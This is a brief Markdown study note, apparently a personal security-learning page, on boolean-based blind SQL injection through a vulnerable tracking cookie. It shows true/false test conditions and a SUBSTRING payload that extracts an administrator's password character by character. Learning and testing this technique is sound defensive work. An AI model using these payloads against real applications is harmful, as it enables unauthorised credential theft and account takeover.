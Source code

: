 ```yaml
---
Title: Blind SQLi
tags:
  - SQLi
  - BLINDSQL
---
```

Blind SQL is not necessarily being "blind", but rather looking at other intricacies the application returns whenever you inject a query. 

For example, we have this vulnerable cookie.
```
Cookie: TrackingId=abcdefghijklmnopqrstuvwxyz
```
> [!The query that the TrackingId uses ]
> ```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz'

A successful query will return "Welcome!", and an unsuccessful one will return nothing. We can exploit this functionality by injecting arbitrary sql queries, and constantly checking if the query returns "Welcome!" or not.

> [!Example]
> ```sql
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz' ' AND '1'='1
> -- above returns true
> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'abcdefghijklmnopqrstuvwxyz' ' AND '1'='2
> -- above returns false

> [!Sample payload]
> ```sql
> -- SUBSTRING(string, position of the string, length of the string(usually 1))
> 
> xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
> -- this function is as follows, where the first letter of the password of administrator is greater than m

